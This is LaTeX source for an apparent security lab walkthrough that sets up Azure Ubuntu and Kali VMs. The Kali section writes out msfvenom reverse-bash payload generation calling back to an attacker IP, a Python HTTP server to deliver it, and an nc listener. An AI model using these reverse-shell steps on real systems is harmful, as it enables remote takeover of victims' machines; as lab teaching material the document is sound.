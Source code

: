 \documentclass{article}
\begin{document}
\section{Feature Demonstration}

\subsection{Log Analysis}
\subsubsection{Open Ubuntu Server}
The following steps have been taken while opening the Azure Cloud Ubuntu seed VM:
\begin{itemize}
    \item ssh into the Azure VM using the provided key
    \item Type: \textcolor{blue}{\texttt{\$ sudo su seed}}
    \item Open vncserver: \textcolor{blue}{\texttt{seed\$ vncserver -localhost no}} and connect using TigerVNC or RealVNC
\end{itemize}
\subsubsection{Open Ubuntu Client}
ssh into the client VM similarly like server, but not vncserver connection is mandatory, it is optional
\subsubsection{Open Kali VM Attacker}
\begin{itemize}
    \item ssh into the Kali VM using the provided key
    \item Create a folder:
    {
    \color{blue}%
    \begin{verbatim}
        ~$ mkdir payload
        ~$ cd payload
    \end{verbatim}
    }
    \item Create the malicious payload which will enable any client to connect to attacker via port 6666:
    {
    \color{blue}%
    \begin{verbatim}
        ~/payload$ msfvenom -p cmd/unix/reverse_bash lhost=10.0.0.6 lport=6666 R > payload.out
    \end{verbatim}
    }
    \item Then start a python server at the payload folder:
    {
    \color{blue}%
    \begin{verbatim}
        ~/payload$ sudo python3 -m http.server 80
    \end{verbatim}
    }
    \item In another tab, initiate an \textbf{nc} connection:
    {
    \color{blue}%
    \begin{verbatim}
        ~/payload$ nc -vlp 6666
    \end{verbatim}
    }
\end{itemize}
\end{document}
